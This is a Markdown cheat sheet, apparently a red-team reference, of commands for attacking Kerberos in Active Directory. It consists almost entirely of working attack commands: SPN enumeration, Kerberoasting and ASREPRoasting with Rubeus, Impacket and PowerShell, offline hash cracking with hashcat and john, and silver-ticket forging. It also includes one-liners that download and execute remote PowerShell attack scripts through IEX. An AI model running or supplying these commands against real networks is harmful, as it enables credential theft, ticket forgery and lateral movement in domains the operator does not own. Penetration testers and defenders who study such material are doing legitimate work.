 # Kerberos Info Gathering
## Query SPNs
**CMD.exe**   
Using cmd.exe: (The following example searches all SPNs in the domain from MSSQL servers)   
`setspn -Q MSSQLSvc/*`   
Using cmd.exe on a foreign domain: (The following example searches for Hyper-V related SPNs)   
`setspn -Q *hyper*/* -T <domainname>`   
Note: setspn command generates alerts from MDI!   

**Native PowerShell**   
```
$search = [adsisearcher]"(&(sAMAccountType=805306368)(servicePrincipalName=*))"
$search.PageSize = 10000
$spnusers = $search.FindAll()
```   
**BloodHound**   
Using BloodHound: (list all user accounts with an SPN)   
`MATCH (u:User {hasspn:true}) RETURN u`   
You can even expand the BloodHound query to include pathes to computers from these accounts:   
`MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`   

## Get Kerberos Delegation Accounts
Requires AD Modules:   
`Get-ADObject -filter { (UserAccountControl -BAND 0x0080000) -OR (UserAccountControl -BAND 0x1000000) -OR (msDS-AllowedToDelegateTo -like '*') } -prop Name,ObjectClass,PrimaryGroupID,UserAccountControl,ServicePrincipalName,msDS-AllowedToDelegateTo`   

# Kerberos Ticket
Get krb ticket for user with known password (e.g. via socks proxy):   
`.\Rubeus.exe asktgt /user:jdoe /password:<CUT> /domain:lab.local /dc:10.0.0.4 /ptt`   
Using native Powershell:   
```Powershell
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/websrv.domain.local"
```
# Kerberos Attacks
## Kerberoasting
### From Windows
Against single user using Rubeus.exe:   
`.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`   
Against single SPN, using base64 kirbi which was obtained via asktgt (Note: portnumber in spn - e.g. MSSQLSvc/server1.lab.local,1433 - seems to break Rubeus):   
`.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3 /ticket:doIFMD[...]`   

Using native PowerShell:
```powershell
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/websrv.domain.local"  
```
Using Powerview:   
``` 
IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"))
Request-SPNTicket -SPN "<SPN>" -Format Hashcat
```     
Using Invoke-Kerberoast:    
`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`   
Single ticket from Invoke-Kerberoast:   
`Get-DomainSPNTicket -SPN "HTTP/SA-SPS" -OutputFormat Hashcat`   

Get ticket using klist:   
`klist get <SPN>`   

### From Linux
Using GetUserSPN.py:   
`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`   
Kerberoast all SPNs (NOT OPSEC!!!):   
`proxychains GetUserSPNs.py windomain.local/user:Password123 -dc-ip 192.168.1.12 -request`   
Another tool:   
 - https://github.com/ShutdownRepo/targetedKerberoast   

### Cracking
`john --format=krb5tgs --wordlist=wordlist svc_mssql`   
`hashcat -a 0 -m 13100 svc_mssql wordlist`   

## ASREPRoast 
Query accounts for "do not require Kerberos pre-authentication":   
`([adsisearcher]"(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()`   
Find such users in BloodHound:   
`MATCH (u:User {dontreqpreauth:true}) RETURN u`   

If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request domain.local/someaccount:`   

On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   

### Cracking
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat --attack-mode 0 --hash-type 18200 hashes.asreproast /srv/wordlists/uncompressed/crackstation-human-only.txt --rules-file /srv/rules/nsa_500.txt`   

## Silver Ticket Attack
If you have the plaintext password or the NT hash of a service account, you can create Kerberos Service tickets for this service in the name of any user (as long as PAC validation is not enabled).

### Linux
```
ticketer.py -nthash 077CCCC23F8AB7031BEEFB70C694A49 -domain-sid S-1-5-21-875478684-1579768486-654964636 -domain dumpsterfire.local -spn MSSQLSvc/server.dumpsterfire.local:SQLINSTANCE1 targetuser
export KRB5CCNAME=/home/kali/targetuser.ccache
```
Use with e.g.:
`mssqlclient.py dumpsterfire.local/targetuser@server.dumpsterfire.local -k -no-pass`

### Windows
```
.\Rubeus.exe silver /service:MSSQLSvc/server.dumpsterfire.local /rc4:077CCCC23F8ABEEF26A3B70C694A49 /sid:S-1-5-21-875478684-2579768486-654964636 /user:targetuser /domain:dumpsterfire.local /ptt 
```
With `/ptt` the ticket is automatically imported into the local Kerberos cache and can be used to connect to the target service.

# Other stuff
Change user or groups in Kerberos ticket, Crack requested service tickets:   
https://github.com/nidem/kerberoast/   

## SPNs which can be used for code exec
```
MSSQLSvc -> xp_cmdshell
TERMServ -> RDP 
WSMAN+HTTP -> PS remoting
HOST+HTTP -> WinRM
HOST -> Task scheduler
CIFS -> psexec, etc. (SMB)
```
